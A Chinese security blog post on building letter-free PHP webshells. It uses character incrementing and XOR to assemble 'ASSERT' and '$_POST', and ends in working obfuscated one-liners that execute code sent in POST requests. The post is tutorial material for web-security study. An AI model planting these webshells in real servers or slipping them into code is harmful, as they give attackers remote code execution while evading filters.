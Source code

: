 ```yaml
---
title: "无字母 PHP Shell"
date: 2018-05-05T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['php']
categories: ['Web安全']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



在处理字符变量的算数运算时, PHP 沿袭了 Perl 的习惯. 例如, a = ‘Z’; a++; 将把 $a 变成’AA’, 注意字符变量只能递增, 不能递减, 并且只支持纯字母 (a-z 和 A-Z).

php 弱类型的坑.

参考 P 牛的文章, 自己整理一下.

<!--more-->

## ASCII

利用之前介绍的特性.

首先要有一个字母 A, 之后才能通过递增得到其它字母.

由于 php 弱类型的特性, array 转换为 string 时会得到 Array.

```
$_ = ''.[];
echo $_; // Array
```

通过 `!` 进行非运算, bool 类型强制转换就会变成 0 or 1.

```
echo ''; //
echo !(''); // 1
echo ('!'=='@') //
echo !('!'=='@'); // 1
```

获取字符 A.

```
$_ = ''.[];
echo $_[''];
```

之后通过递增获取其它字符.

```
$_ = ''.[];
$_ = $_[''];
$_; // A
$___ = $_;
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$___ .= $__.$__;
$__ = $_;
$__++;$__++;$__++;$__++; // E
$___ .= $__;
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___ .= $__;
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___ .= $__; // ASSERT
$____ = '_';
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____ .= $__;
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____ .= $__;
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____ .= $__;
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____ .= $__; // _POST
```

变量覆盖 得到 `$_POST`.

```
$_ = $$____; // $_POST
```

拼接.

```
$___($_[_]); // ASSERT($_POST[_])
```

php 不区分大小写.

## Xor

在PHP中, 两个变量进行异或时, 会将字符串转换成二进制再进行异或.

两个 foreach 跑出异或结果, 之后拼接.

```
<?php
@$_++; // 1
$__=("#"^"|"); // _
$__.=("."^"~"); // _P
$__.=("/"^"`"); // _PO
$__.=("|"^"/"); // _POS
$__.=("{"^"/"); // _POST 
${$__}[!$_](${$__}[$_]); // $_POST[0]($_POST[1])
?>
```